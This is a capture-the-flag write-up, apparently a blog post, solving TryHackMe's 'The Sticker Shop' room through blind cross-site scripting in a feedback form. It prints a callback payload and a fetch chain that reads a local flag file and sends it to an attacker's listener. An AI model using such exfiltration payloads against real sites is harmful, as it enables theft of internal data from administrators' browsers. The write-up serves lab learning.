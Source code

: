 ```yaml
---
title: The Sticker Shop
date: 2024-12-15
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, xss, web]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/stickershop/banner.png
---
```


>Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
>
> Can you read the flag at http://TARGET-IP:8080/flag.txt?

## Reconnaissance

When we launch the machine and try to go to the `http://<TARGET-IP>:8080/flag.txt`, we get an **error 401** stating that we do not have the right permissions to access to this content.

When we head to the main page, we land on a website representing a Cat Sticker Shop that contains two tabs : *Home* tab and *Feedback* tab.

![home](/assets/img/tryhackme/ctf/stickershop/1.png)

The *Home* tab is just a simple tab with cat stickers.

![feedback](/assets/img/tryhackme/ctf/stickershop/2.png)

The *Feedback* tab allows us to send a feedback through a text input that we can submit.

Whenever we type a text and submit it, it displays a message thanking us from our feedback, but it does not display anything else (and this no matter what we send).

![feedback2](/assets/img/tryhackme/ctf/stickershop/3.png)

## Payload Injection

Thanks to [Swissky](https://github.com/swisskyrepo) and his [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-htmlapplications), we can try a few XSS injections, but since we know it does not display anything on the page, perhaps this target is vulnerable to some other triggers.

Indeed, when we try the following payload, we receive a request back to our listener :

```html
<script>fetch('http://<LOCAL-IP>:8080')</script>
```

![netcat](/assets/img/tryhackme/ctf/stickershop/4.png)

This proves that we could use this vulnerability to *force* the target machine to read the content of `http://<TARGET-IP>:8080/flag.txt` and to send it to us in a **parameter** inside of a **GET request**.

This is what we will try to do :

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(res => res.text())
  .then(data => fetch('http://<LOCAL_IP>:8080?flag=' + encodeURIComponent(data)));
</script>
```

Here is how this payload works :

| **Code** | **Explanation** |
| ----------- | -------------- |
| `fetch('http://127.0.0.1:8080/flag.txt')` | The **fetch** command reaches to the local web server at the `/flag.txt` page with a request |
| `.then(res => res.text())` | The response to this request is converted to plain text |
| `.then(data => fetch('http://<LOCAL-IP>:8080?flag=' + encodeURIComponent(data)));` | The output (called *data*) is *encoded* (by `encodeURIComponent` to make sure that special characters are properly escaped<br> for inclusion in the URL) and appended to the URL requested by the fetch command as a **parameter** |

After submitting this payload in the *customer feedback* and waiting a few seconds, we receive the **GET request** from the target machine with the flag in the **parameter** :

![flag](/assets/img/tryhackme/ctf/stickershop/5.png)
